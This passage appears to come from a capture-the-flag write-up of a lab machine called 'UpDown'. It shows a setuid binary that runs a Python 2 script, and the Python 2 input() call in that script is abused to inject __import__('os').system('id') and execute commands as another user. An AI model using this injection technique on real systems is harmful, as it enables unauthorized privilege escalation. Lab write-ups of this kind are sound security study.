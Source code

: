 ```
        ^
SyntaxError: invalid syntax

www-data@updown:/home/developer/dev$ python2 siteisup_test.py 
Enter URL here:http://10.10.14.6/test
Traceback (most recent call last):
  File "siteisup_test.py", line 3, in <module>
    url = input("Enter URL here:")
  File "<string>", line 1
    http://10.10.14.6/test
        ^
SyntaxError: invalid syntax
```

By check the binary-file
```
www-data@updown:/home/developer/dev$ strings -n 20 siteisup
strings -n 20 siteisup
/lib64/ld-linux-x86-64.so.2
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
Welcome to 'siteisup.htb' application
/usr/bin/python /home/developer/dev/siteisup_test.py
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
deregister_tm_clones
__do_global_dtors_aux
__do_global_dtors_aux_fini_array_entry
__frame_dummy_init_array_entry
_GLOBAL_OFFSET_TABLE_
_ITM_deregisterTMCloneTable
setresuid@@GLIBC_2.2.5
setresgid@@GLIBC_2.2.5
geteuid@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
getegid@@GLIBC_2.2.5
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
```
It’s calling the python script from the application.

Putting all that together, I just need to run the binary (which runs as developer) and give it the Python code to run:
```
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('id')
__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>
    page = requests.get(url)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
```